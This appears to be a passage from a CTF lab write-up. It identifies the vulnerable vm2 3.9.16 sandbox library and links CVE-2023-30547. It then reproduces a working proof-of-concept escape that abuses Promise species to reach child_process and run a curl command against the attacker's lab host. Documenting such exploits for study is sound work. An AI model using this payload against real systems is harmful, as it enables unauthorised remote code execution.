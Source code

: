 The app is using this lib :floppy_disk: [vm2 v3.9.16](https://github.com/patriksimek/vm2/releases/tag/3.9.16) 

Ok, someone already published a CVE for a known vulnerability: https://github.com/rvizx/CVE-2023-30547. 

Actually this one is the official: https://github.com/advisories/GHSA-cchq-frgv-rjh5
- The vuln allows attacker RCE via the `promise` functionality.

`vm2` is a tool that allow users to run code in a sandboxed environment where some nodejs functionalities can be whitelisted (to make it some secure? :skull:). The usage of the tool is not recommended:
![vm2](../../images/2024-01-11_17-24.png)

### Testing the CVE's PoC
https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9

The code being executed is:
```javascript
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('curl 10.10.14.31:55555/what.php'); }
            )
        }
    }
```